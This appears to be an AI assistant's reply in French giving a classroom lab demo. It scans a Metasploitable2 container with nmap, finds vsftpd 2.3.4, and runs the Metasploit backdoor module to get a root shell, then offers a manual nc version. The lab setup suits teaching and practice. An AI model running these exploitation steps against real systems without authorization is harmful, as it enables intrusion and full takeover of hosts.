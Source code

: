Parfait 👌 Tu veux une démo **pédagogique complète** où on :

* Lance un **scan `nmap` depuis `vm1`**
* **Découvre une version vulnérable** (ex: vsftpd 2.3.4)
* Puis on **va chercher manuellement l’exploit dans Exploit-DB**
* Et on **l’utilise** pour **prendre le contrôle de la VM**

---

# 🎯 Objectif de la démo

* **vm1 (10.10.10.11)** = Attaquant
* **vm2 (10.10.10.12)** = Cible (Metasploitable2 dans Docker avec vsftpd 2.3.4 vulnérable)

---

# 🚀 Étapes complètes de la démonstration

---

## 🧱 Étape 1 – Préparation de Metasploitable2 (sur vm2)

```bash
sudo apt update
sudo apt install -y docker.io
sudo docker run -it -p 21:21 -p 6200:6200 tleemcjr/metasploitable2
```

💡 Ce conteneur expose **vsftpd 2.3.4** vulnérable sur le port 21.

---

## 🔍 Étape 2 – Scan avec Nmap (depuis vm1)

```bash
sudo apt install -y nmap
nmap -sV 10.10.10.12 -p21
```

🎯 Résultat attendu :

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
```

✅ On a repéré **vsftpd 2.3.4** exposé !

---

## 📚 Étape 3 – Aller sur Exploit-DB (à la main)

### Option 1 – Avec navigateur sur ta machine hôte :

Ouvre :
🔗 [https://www.exploit-db.com](https://www.exploit-db.com)

Et cherche :

```
vsftpd 2.3.4
```

➡ Résultat :
**[vsftpd 2.3.4 - Backdoor Command Execution (EDB-ID: 49757)](https://www.exploit-db.com/exploits/49757)**

---

### Option 2 – Depuis vm1 avec `searchsploit`

Si installé :

```bash
sudo apt install exploitdb
searchsploit -u
searchsploit vsftpd 2.3.4
```

➡ Résultat :

```
vsftpd 2.3.4 - Backdoor Command Execution | unix/remote/49757.rb
Path: /usr/share/exploitdb/exploits/unix/remote/49757.rb
```

---

## 💥 Étape 4 – Lancer l’exploit depuis vm1

Utilise **Metasploit Framework** :

```bash
sudo apt install -y metasploit-framework
msfconsole
```

Puis dans msf :

```text
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.10.10.12
set RPORT 21
exploit
```

🎯 Résultat attendu :

```
[*] 10.10.10.12:21 - Banner: 220 (vsFTPd 2.3.4)
[*] Backdoor service has been spawned, handling...
[*] Command shell session 1 opened
```

🧨 Tu as maintenant un shell interactif !

---

## 🧪 Étape 5 – Vérification de l’accès

Dans Metasploit :

```bash
whoami
uname -a
```

➡ Tu es `root` sur vm2 via une backdoor ! 😈

---

# 🧠 Bilan pédagogique

| Étape                   | Outil         | But                                             |
| ----------------------- | ------------- | ----------------------------------------------- |
| Découverte service      | `nmap`        | Scanner et détecter `vsftpd 2.3.4`              |
| Recherche vulnérabilité | Exploit-DB    | Identifier un exploit compatible                |
| Exploitation            | `msfconsole`  | Utiliser `exploit/unix/ftp/vsftpd_234_backdoor` |
| Prise de contrôle       | Shell distant | Obtenir accès root grâce à un service exposé    |

---

# 🎁 Tu veux une version **sans Metasploit** ?

Je peux te montrer comment faire l’exploitation **à la main avec `nc`**, en exploitant manuellement le `:)` dans le login → ce qui déclenche l’ouverture du port 6200.

Souhaites-tu cette version **à la main, sans framework** pour démonstration plus bas-niveau ?
